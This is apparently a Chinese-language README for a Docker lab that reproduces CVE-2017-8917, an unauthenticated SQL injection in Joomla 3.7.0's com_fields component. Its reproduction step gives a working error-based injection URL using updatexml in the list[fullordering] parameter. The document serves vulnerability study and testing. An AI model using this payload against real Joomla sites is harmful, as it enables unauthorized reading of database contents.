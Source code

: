 # Joomla 3.7.0 (CVE-2017-8917) SQL注入漏洞环境

Joomla是一个开源免费的内容管理系统（CMS），基于PHP开发。

Joomla在3.7.0中新引入的一个组件“com_fields”，这个组件任何人都可以访问，无需登陆验证。com_fields组件由于对请求数据过滤不严导致了SQL注入。

参考链接：

- <https://developer.joomla.org/security-centre/692-20170501-core-sql-injection.html>
- <https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html>

## 测试环境

执行如下命令启动一个Joomla 3.7.0服务：

```
docker compose up -d
```

启动后访问`http://your-ip:8080`即可看到Joomla的安装界面和测试数据。

## 漏洞复现

直接访问`http://your-ip:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)`，即可看到SQL报错信息：

![](1.png)
